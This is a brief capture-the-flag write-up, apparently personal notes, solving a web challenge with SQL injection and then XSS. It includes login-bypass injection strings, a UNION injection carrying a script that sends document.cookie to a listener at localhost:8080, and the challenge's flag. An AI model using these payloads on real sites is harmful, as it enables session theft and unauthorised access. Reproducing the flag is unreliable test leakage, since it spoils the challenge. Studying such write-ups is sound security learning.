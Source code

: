 * sql injection
  The query is probably 
  ~SELECT user from (select * from xxx where user='' AND password='');~
  ~(' or 1=1 or ')~ but ~(' or ''=')~ cannot
  ~( user='' or ''='' and password = xxx )~. AND has higher precedence!
* XSS
  in the SQL injection before. 
  easily found that one column is 'user' and the other 'password'
  ~(') union select '<img id="test"> <script> var im=document.getElementById("test");im.src="http://localhost:8080/?cookie=" + document.cookie;</script>' as user,2 -- )~
  flag: xss_is_a_little_like_sqli_but_usually_a_lot_more_fun

